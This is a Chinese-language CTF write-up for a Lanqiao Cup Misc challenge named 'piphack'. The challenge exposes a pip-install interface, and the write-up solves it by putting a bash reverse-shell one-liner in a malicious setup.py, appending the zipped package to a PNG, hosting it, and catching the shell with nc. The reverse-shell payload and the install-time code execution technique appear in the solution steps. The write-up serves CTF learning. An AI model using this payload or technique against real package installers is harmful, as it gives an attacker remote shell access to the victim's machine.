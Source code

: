 ```yaml
---
title: piphack
date: 2024-03-18 14:31:38
updated: 2024-11-15 21:49:39
categories:
  - 网络安全
  - CTF竞赛
  - 蓝桥杯
  - Misc
tags:
  - 网络安全
  - CTF
  - Misc
permalink: /posts/piphack/
---
```

## 题目描述

可以安装任意包的接口，你会怎么利用呢?

## 解题

根据搜索该题为`RCE`漏洞的利用，本题的主要原理就是`pip`在下载包以后，会自动进行解压然后执行`setup.py`文件，那么可以人为构造一个带有恶意代码的`setup.py`文件，然后把该文件压缩，和`png`图片合在一起上传至公网服务器上，当题目执行`pip`安装包时，会触发我们自己构建的`setup.py`文件中的代码。

解题需求：要求一台具有稳定`ipv4`地址并开启web服务的服务器；

一、构建恶意图片

1、随便找一张图片；

2、构建反弹shell，使出题服务器使用pip安装时自动与我们的服务器建立`tcp`连接

```python
__import__('os').system("bash -c 'bash -i >& /dev/tcp/自己服务器IP地址/端口号 0>&1'")
```

> 解释：
> `bash -c  "cmd string"`  接的是`shell`命令字符串，用引号括起来，运行后面的命令；
> `bash -i` 创建一个交互式`bash`进程
> `>&`    将标准输入和标准错误输出重定向到文件`/dev/tcp/`自己服务器IP地址/端口号;
> `/dev/tcp/`自己服务器IP地址/端口号 一个特殊的设备，打开了这个文件相当于发出了一个`socket`调用，建立一个`socket`连接;
> `0>&1` 将标准输入重定向到标准输出,使我们既能进行输入，又能看到输出
> 注意服务器的端口一定要是开放的

将上面的代码放入`setup.py`中，然后创建一个文件夹（名字英文任取），将`setup.py`放入文件夹，然后压缩文件夹，得到`文件夹.zip`

3、在`windows`电脑的`cmd`窗口上用命令

```powershell
copy /b tupian.png + 文件夹.zip tupian.png 
```

二、上传图片至服务器网站目录

需注意上传的图片一定要能正常访问，可以在浏览器上测试。

三、开始解题

1、先在服务器上使用`nc`命令监听端口

```shell
sudo nc -lvn 端口
```

![image-20240220161135499](piphack/image-20240220161135499.png)

2、然后用`nc`连接题目给出的地址

![image-20240220161139217](piphack/image-20240220161139217.png)

这里发现题目过滤了`http`，尝试使用`Http`绕过，等待一会儿发现在我们的服务器上已经连接上，说明成功，接下来就是一系列测试命令最终发现`flag{a262d436-704d-402b-881d-c487d7cf945f}`

![image-20240220161144411](piphack/image-20240220161144411.png)

